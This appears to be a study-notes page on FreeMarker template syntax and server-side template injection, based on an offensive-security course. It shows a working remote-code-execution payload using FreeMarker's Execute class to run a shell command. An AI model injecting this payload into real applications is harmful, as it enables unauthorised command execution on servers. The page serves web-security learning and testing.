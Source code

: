 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Freemarker

## Syntax

FreeMarker uses the [**FreeMarker Template Language (FTL)**](https://freemarker.apache.org/docs/dgui_template_overallstructure.html) which consists of text, interpolation, FTL tags, and comments.

```ftl
<html>[BR]
<head>[BR]
  <title>Welcome!</title>[BR]
</head>[BR]
<body>[BR]
  <#-- Greet the user with his/her name -->[BR]
  <h1>Welcome ${user}!</h1>[BR]
  <p>We have these animals:[BR]
  <ul>[BR]
  <#list animals as animal>[BR]
    <li>${animal.name} for ${animal.price} Euros[BR]
  </#list>[BR]
  </ul>[BR]
</body>[BR]
</html>
```

FreeMarker auto-escapes variables if the content type is an HTML document, while most other templating engines always escape HTML content unless specified not to. This make FreeMarker more susceptile to HTML injection (Figure 1.1) and XSS attacks (Figure 1.2).

<figure><img src="../../../.gitbook/assets/web_ssti_freemarker_syntax.png" alt=""><figcaption><p>Figure 1: Testing HTML injection and XSS in FreeMarker.</p></figcaption></figure>

Unlike PHP used in [Twig](freemarker.md#twig), Java uses cares about data types so if an integer is multiplied with a string, we expect to get an error (Figure 2).

<figure><img src="../../../.gitbook/assets/web_ssti_freemarker_syntax_1.png" alt=""><figcaption><p>Figure 2: Intentionally inducing an error.</p></figcaption></figure>

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We can leverage the [`Execute`](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html) class which implements the `TemplateModel` interface to achieve RCE in a FreeMarker templating engine.

```ftl
${"freemarker.template.utility.Execute"?new()("whoami")}
```
